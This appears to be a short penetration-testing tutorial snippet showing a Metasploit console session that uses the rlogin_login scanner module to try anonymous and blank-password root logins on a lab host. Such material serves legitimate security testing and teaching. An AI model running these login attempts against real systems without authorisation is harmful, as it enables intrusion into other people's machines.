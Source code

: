 **For rlogin** we had an module on the metasploit that can be used to connect to rlogin service running on the target.
```
msfconsole -q
msf > search rlogin_login
msf > use auxiliary/scanner/rservices/rlogin_login
msf auxiliay(scanner/rservices/rlogin_login) > options
msf auxiliay(scanner/rservices/rlogin_login) > set ANONYMOUS_LOGIN true
msf auxiliay(scanner/rservices/rlogin_login) > set BLANK_PASSWORD true
msf auxiliay(scanner/rservices/rlogin_login) > set RHOSTS 192.168.1.103
msf auxiliay(scanner/rservices/rlogin_login) > set USERNAME root
msf auxiliay(scanner/rservices/rlogin_login) > set STOP_ON_SUCCESS true
msf auxiliay(scanner/rservices/rlogin_login) > show options
msf auxiliay(scanner/rservices/rlogin_login) > run
```
**Output**![](../images/exploiting_rlogin_services_1.png)
